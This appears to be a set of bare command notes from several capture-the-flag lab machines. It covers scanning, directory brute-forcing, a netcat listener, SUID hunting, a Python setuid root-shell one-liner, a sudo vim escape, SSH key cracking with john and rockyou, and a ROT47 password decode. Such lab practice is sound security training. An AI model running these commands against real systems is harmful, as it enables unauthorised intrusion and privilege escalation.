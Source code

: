 
nmap -sV -O 10.10.84.242

gobuster dir -u http://10.10.84.242 -w /usr/share/wordlists/dirb/common.txt -x php

nc -lvnp 12345

find / -user root -perm -u=s -type f 2>/dev/null

/usr/bin/python -c 'import os; os.setuid(0); os.system("/bin/bash")'

sudo -l

sudo vim -c ':!bash'


nmap -sV -O 10.10.193.179

gobuster dir -u http://10.10.193.179 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

gobuster dir -u http://10.10.193.179 -w /usr/share/wordlists/dirb/common.txt -x php

python3 exploit.py -u http://10.10.193.179/simple -c -w /path/to/rockyou.txt -t 5

ssh mitch@10.10.193.179 -p 2222

cat /home/milesdyson/backups/backup.sh

nmap -sV -O 10.10.225.77

gobuster dir -u http://10.10.225.77 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

gobuster dir -u http://10.10.247.215/as -w /usr/share/wordlists/dirb/common.txt -x php

# Client-side cookie injection (manual via browser dev tools)

# SSH private key cracking
/opt/john/ssh2john.py id_rsa > id_rsa.hash
john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash

chmod 600 id_rsa
ssh -i id_rsa james@10.10.225.77

# Decode ROT47 password
echo ",LQ?2>6QiQ$JDE6>Q[QA2DDQiQD2J5C2H?=J:?8A:4EFC6QN." | tr '!-~' 'P-~!-O'

# Crontab inspection
cat /etc/crontab

# Hostname hijacking
echo "10.10.95.251 overpass.thm" >> /etc/hosts
